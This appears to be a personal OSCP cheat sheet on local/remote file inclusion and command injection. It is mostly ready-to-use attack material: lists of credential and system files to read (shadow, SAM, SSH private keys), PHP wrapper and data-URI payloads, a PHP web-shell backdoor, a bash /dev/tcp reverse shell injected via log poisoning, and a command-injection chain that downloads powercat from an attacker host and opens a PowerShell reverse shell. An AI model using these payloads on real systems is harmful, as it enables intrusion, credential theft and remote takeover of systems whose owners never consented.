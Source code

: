 # LFI / RFI

ON OSCP, if you are able to find LFI anywhere, hunt down the SSH keys first

- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)
- [Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)
- [LFI Medium Article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601)
## Local File Inclusion:

1. Check if you can convert LFI to RFI
2. Try adding %00 to bypass the added extension on the server side. (Works on PHP < 5.3)
3. You can even add? to bypass it.
4. If you can't read php files: **php://filter/convert.base64-encode/resource=index**
5. Try reading important files from the system other than **passwd.** Enumeration might help in determining which files might be important. Maybe try checking the config files for the web app

### WINDOWS FILES

```
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

### LINUX FILES

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/resource=/etc/passwd
```

### LOG FILES

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

### RFI

```
file=data:text/plain,hello world
file=data:text/plain,<?php echo shell_exec("dir") ?>
```

### LFI and RFI Examples

```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/a pache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

w/php wrapper:

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64encode/resource=admin.php

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```

![File Inclusion Example](FileInclusionExample.png)

# Remote File Inclusion

```
//Simple PHP backdoor
<?php 
if(isset($_REQUEST['cmd'])){ 
	echo "<pre>"; $cmd = ($_REQUEST['cmd']); 
	system($cmd); echo "</pre>"; die;
?}>

Then:

python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simplebackdoor.php&cmd=ls"


```

## Command Injection

```

curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive

curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

try system access with power cat:
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nvlp 4444

*This encoded: ```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```*
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive



```
